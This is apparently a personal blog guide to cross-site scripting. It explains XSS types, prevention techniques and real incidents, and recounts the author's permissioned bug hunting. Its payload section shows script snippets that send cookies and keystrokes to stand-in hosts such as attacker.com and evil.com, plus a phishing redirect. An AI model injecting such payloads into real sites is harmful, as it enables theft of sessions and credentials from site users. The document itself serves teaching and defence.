 ~ Cross-Site Scripting (XSS) – A Complete Guide with Real-World Examples and Prevention and what I  know and also I shared my strategy . How I start finding this vulnerability in website with permission  ..
Web applications are now at the heart of almost every business operation. But as they’ve grown more complex, they’ve also become increasingly attractive targets for cybercriminals.
One of the most persistent—and dangerous—threats to web applications is Cross-Site Scripting (XSS).
In this guide, we’ll explore what XSS is, how it works, notable real-world incidents, and—most importantly—how you can prevent it.
________________________________________
What is the OWASP Top 10?
Before diving into XSS, it’s worth understanding where it sits in the wider security landscape.
The OWASP Top 10 is a globally recognized list of the most critical web application security risks, published by the Open Web Application Security Project (OWASP).
It serves as an awareness guide for developers, security professionals, and organizations—helping them identify, prioritize, and address the most common and impactful vulnerabilities seen in real-world applications.
XSS has been a recurring entry in the OWASP Top 10 for many years, highlighting just how widespread and dangerous it remains.
________________________________________
What is XSS (Cross-Site Scripting)?
Cross-Site Scripting (XSS) is a vulnerability that allows attackers to inject malicious scripts into otherwise trusted web pages. These scripts run in the browsers of unsuspecting users, effectively letting an attacker execute code in the context of the legitimate site.
With this capability, attackers can:
•	Steal sensitive data (e.g., session cookies).
•	Impersonate legitimate users.
•	Redirect visitors to malicious sites.
•	Deface pages or alter website content.
The danger comes from the fact that browsers inherently trust the source of the page. If the malicious script appears to come from the site itself, security checks are often bypassed.
________________________________________
Types of XSS Attacks
There are three main types of XSS attacks, each delivered differently.
1. Stored XSS (Persistent XSS)
The malicious script is permanently stored on the target server—commonly in a database, forum post, or comment field—and then served to users later.
Example:
<script>alert('Stored XSS')</script>
________________________________________
2. Reflected XSS (Non-Persistent XSS)
The malicious script is immediately reflected in the server’s response—often through query parameters or form submissions—and executed in the victim’s browser.
Example:
<script>alert('Reflected XSS')</script>
________________________________________
3. DOM-Based XSS
This attack occurs entirely on the client side, when insecure JavaScript in the page modifies the DOM based on unsanitized user input.
Example:
<script>
  let q = new URLSearchParams(location.search).get('q');
  document.body.innerHTML = q;
</script>
________________________________________
How an XSS Attack Works
1.	Finding an entry point – The attacker locates an input field, parameter, or API response that processes user input insecurely.
2.	Injecting malicious code – JavaScript or another payload is inserted.
3.	Exploiting poor validation – The application fails to sanitize or encode the input.
4.	Delivering the payload – The malicious script is stored, reflected, or executed via DOM manipulation.
5.	Victim interaction – A user loads the compromised page or clicks a malicious link.
6.	Execution – The attacker’s script runs in the victim’s browser, enabling actions like cookie theft, phishing, or session hijacking.
________________________________________
Common Goals of XSS Attacks
While many demonstrations of XSS simply display a pop-up alert, attackers use it for far more serious purposes:
•	Cookie Theft – Capturing session cookies to impersonate users.
•	Session Hijacking – Taking over active sessions.
•	Keylogging – Recording keystrokes to steal credentials.
•	Phishing – Redirecting victims to fake login pages.
________________________________________
Why Attackers Prefer JavaScript for XSS
JavaScript is the go-to language for XSS payloads because:
•	It runs in every modern browser.
•	It can read and manipulate the DOM.
•	It can access cookies, local storage, and session data (with some restrictions).
•	It can send requests to attacker-controlled servers.
________________________________________
Educational XSS Payload Examples
⚠️ Important: These examples are for safe, controlled environments only—such as DVWA, OWASP Juice Shop, or local testing.
Never test these on live or unauthorized systems.
1.	Basic Alert
<script>alert('XSS')</script>
2.	Cookie Theft
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
3.	Session Hijacking
<script>
  new Image().src = "http://evil.com/hijack?data=" + document.cookie;
</script>
4.	Keylogging
<script>
  document.onkeypress = function(e) {
    fetch('http://evil.com/log?key=' + e.key);
  }
</script>
5.	Phishing Redirection
<script>
  window.location = "http://fake-login.com";
</script>
________________________________________
**Preventing Cross-Site Scripting (XSS)**
Effective XSS prevention requires both detection and proactive defense.
________________________________________
1. Detecting XSS Vulnerabilities
•	Vulnerability Scanning – Automated tools can identify common XSS patterns.
•	Static Code Analysis – Finds insecure coding practices before deployment.
•	Security Testing in CI/CD – Integrates security scans into the development lifecycle for early detection.
________________________________________
2. Prevention Techniques
Input Validation
•	Always sanitize and validate user input before processing.
•	Reject unexpected formats and suspicious characters.
•	Use whitelists instead of blacklists whenever possible.
Output Encoding
•	Encode user-provided content before rendering it in the browser.
•	Apply context-aware encoding for HTML, JavaScript, CSS, and URL contexts.
Example – Output Encoding in JavaScript:
const userInput = "<script>alert('XSS');</script>"; 
const encodedInput = encodeURIComponent(userInput);
console.log(encodedInput); // %3Cscript%3Ealert('XSS')%3C%2Fscript%3E
________________________________________
Real-World Examples of XSS Attacks
XSS has caused serious damage to well-known platforms:
•	Zoom (2020) – A persistent XSS flaw in Zoom’s web client allowed malicious code injection via chat. Zoom patched it quickly but paused feature development for 90 days to focus on security.
•	WordPress WPBakery Page Builder (2020) – A stored XSS bug let attackers inject scripts into thousands of sites, leading to defacement, data theft, and downtime.
•	Slack (2021) – A stored XSS in shared workspace invitations enabled token theft and unauthorized changes. Slack responded with an emergency patch and enhanced security reviews.
•	Atlassian Confluence (2021) – A persistent XSS allowed malicious macros to hijack user sessions, forcing urgent security patches.
________________________________________
Final Thoughts
Cross-Site Scripting remains one of the most prevalent and dangerous web vulnerabilities.



**My Personal Experience**: How I Found an XSS Vulnerability in a Real Website
As someone passionate about web application security, I’ve always been curious about how vulnerabilities work in real-world systems.
When I first started exploring Cross-Site Scripting (XSS), my goal wasn’t just to hack for fun — it was to learn, practice ethically, and help secure real applications.
________________________________________
Step 1 – Researching the Most Effective Scripts
Before touching any target, I spent time studying which XSS payloads are most successful in practical scenarios.
I read reports on Bugcrowd and HackerOne, where security researchers shared their techniques.
From there, I learned which scripts tend to bypass filters, how browsers process them, and which contexts are more vulnerable.
________________________________________
Step 2 – Picking the First Target
I didn’t want to start with huge corporations right away.
Instead, I chose something closer to home — a college website near me.
Why? Because for practicing in a controlled and ethical way, college websites are a great start (once you have permission).
They’re usually complex enough to have multiple entry points, but small enough that you can talk directly to the admins.
________________________________________
Step 3 – Getting Permission
This step is non-negotiable.
I reached out to the administrator with a clear message:
“I’m a security researcher learning about web vulnerabilities.
I’d like to test your website for potential security flaws.
I will not harm your system or misuse any data, and I will share my findings with you.”
Once I got the green light, I could test without worrying about legal issues.
________________________________________
Step 4 – Testing Every Input
My approach was simple but thorough — I tested every input field I could find:
•	Search bars
•	E-library search
•	Feedback forms
•	Tool input fields
•	Signup & registration forms
For each one, I tried inserting my XSS payloads.
Sometimes they didn’t work because of restrictions like input length limits.
________________________________________
Step 5 – Thinking Like an Attacker
If a field didn’t allow enough characters, I opened my browser’s Inspect Element tool and increased the input size limit manually.
This allowed me to inject longer payloads.
Sometimes I needed to experiment creatively — not every attack works on the first try.
This process taught me a valuable lesson:
Security is just an illusion — it’s only as strong as the creativity of the person testing it.
________________________________________
Step 6 – Expanding My Scope
After testing the college site and responsibly reporting my findings, I moved on to:
•	Small tech-related companies
•	Educational institutions
•	Public service portals
Each time, I followed the same ethical hacking process:
1.	Get permission first.
2.	Test systematically.
3.	Document everything.
4.	Report vulnerabilities responsibly.

Cheatsheet = all script
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet.pdf

 
 📚 Learning Resources
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [HackerOne Hacktivity](https://hackerone.com/hacktivity)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [TryHackMe Labs](https://tryhackme.com)

Reference lab:  DVWA, Juice Shop, HackTheBox .
 ________________________________________
Final Thoughts
This journey taught me more than just XSS payloads — it taught me discipline, ethics, and problem-solving.
Finding a vulnerability is exciting, but helping an organization fix it is far more rewarding.
Security isn’t just about breaking things; it’s about making them stronger.
________________________________________

 * Medium: https://medium.com/@5141142
* LinkedIn: https://www.linkedin.com/in/ritesh-devkatte-189669321?


